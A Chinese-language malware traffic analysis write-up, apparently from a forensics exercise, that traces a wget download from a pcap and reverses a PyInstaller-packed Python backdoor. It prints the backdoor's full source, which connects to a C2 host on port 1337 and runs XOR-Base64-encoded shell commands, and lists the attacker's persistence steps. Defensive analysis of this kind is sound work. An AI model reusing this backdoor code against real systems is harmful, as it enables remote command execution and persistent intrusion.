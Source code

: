 ```yaml
---
title: '恶意软件流量分析：基于 Python 的后门与 XOR-Base64 C2 通信'
description: '详细分析使用 XOR 加密和 Base64 编码执行命令的 Python 编译恶意软件，包括网络流量剖析和有效载荷逆向工程'
date: 2025-02-27
tags: ['Malware-analysis', 'Reverse-engineering', 'Network-forensics', 'Python-security', 'xor-encryption', 'base64-encoding','threat-hunting', 'C2-communication']
image: './assets/image-20250227160346860.png'
authors: ['0xd00']
---
```


## 初始信息

捕获网络流量包文件`.pcap`一份，包含异常通信行为

## 流量分析

![导入pcap文件](./assets/image-20250227144525368.png)

## 流量过滤

可以看到若干`ssh`流量，`ssh`的传输都是加密的所以先给过滤掉

发现可疑请求路径`/base64_client`

![发现特殊路径](./assets/image-20250227150835278.png)

### 异常HTTP会话
```http
GET /base64_client HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.0.2.64
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.4
Date: Fri, 27 Oct 2023 03:06:00 GMT
Content-type: application/octet-stream
Content-Length: 16181879
Last-Modified: Fri, 27 Oct 2023 03:05:03 GMT
```

查看请求头和响应头可以看到是通过`Wget`从python的`SimpleHTTP`下载文件，这就非常像是攻击者的常用手法

### 文件提取

导出`HTTP`对象进行分析

![导出HTTP对象](./assets/image-20250227151245629.png)

![查看追踪数据流](./assets/image-20250227151956920.png)

## 逆向工程

### 文件预处理

因为格式看起来可能是`base64`编码，所以尝试进行解码

```bash
cat base64_client | base64 -d > client
binwalk client
```

![解码并判断文件类型](./assets/image-20250227152159783.png)

可以确定，这是一个`linux`环境下的`x86`架构可执行文件

```bash
objdump -x client
```

![通过objdump获取更多信息](./assets/image-20250227153006517.png)

`pydata`段通常保存`pyc`，由此可以判断此程序通过python编写，可能通过`pyinstaller`打包

![尝试运行](./assets/image-20250227153305684.png)

### pyinstaller逆向

尝试运行也可以证明

```bash
python pyinstxtractor.py ./client
```

![使用pyinstxtractor反编译](./assets/image-20250227153728901.png)

使用`https://github.com/extremecoders-re/pyinstxtractor.git`来提取`pyc`文件

### 核心代码逆向

接下来尝试使用`uncompyle6`来进行反编译

```bash
uncompyle6 -o client_extracted client_extracted/client.pyc
```

```python
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "MySup3rXoRKeYForCommandandControl".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))
```

到这里已经知道了攻击者的流量加密方式：(xor+base编码)、端口(1337)、执行的命令混淆在图片的base64编码重，使用AAAAAAAAAA分割

![在数据流中查找分割字符串](./assets/image-20250227155757779.png)

## 攻击链重置

在`wireshark`中过滤`1337`端口，判断攻击者执行的命令

尝试解码全部请求数据，可以看到攻击者用于隐藏操作命令的图片

![CyberChef解码数据1](./assets/image-20250227160244152.png)

![CyberChef解码数据2](./assets/image-20250227160319723.png)

![CyberChef解码数据3](./assets/image-20250227160346860.png)

### 编写解密代码

```python
import re
import base64

file_path = 'data.txt'
xor_key = "MySup3rXoRKeYForCommandandControl"

def xor_decrypt(data, key):
    return ''.join(chr(b ^ ord(key[i % len(key)])) for i, b in enumerate(data))

with open(file_path) as file:
    content = file.read()
    matches = re.findall(r"AAAAAAAAAA(.*?)iVBORw", content)

    for match in matches:
        try:
            decoded_command = base64.b64decode(match)
            print("Decrypted Command:", xor_decrypt(decoded_command, xor_key))
        except Exception as e:
            print("Error decoding command:", e)
```
### 确认攻击者操作序列
![查看解密出的命令](./assets/image-20250227162330454.png)


攻击者首先确认了当前用户的身份与权限

浏览历史命令获取更多信息

通过历史命令获取了明文数据库密码

添加了一个具有root权限的用户

制作具有SUID的后门`/usr/bin/passswd`并检查文件权限

使用`md5sum`校验哈希值是否相等

通过定时任务实现其他目标

## 技术指标

| 指标类型   | 具体内容                          |
| ---------- | --------------------------------- |
| C2服务器   | 10.0.2.64:1337                    |
| 加密算法   | XOR + Base64                      |
| 密钥       | MySup3rXoRKeYForCommandandControl |
| 持久化方式 | SUID后门账户、定时任务            |
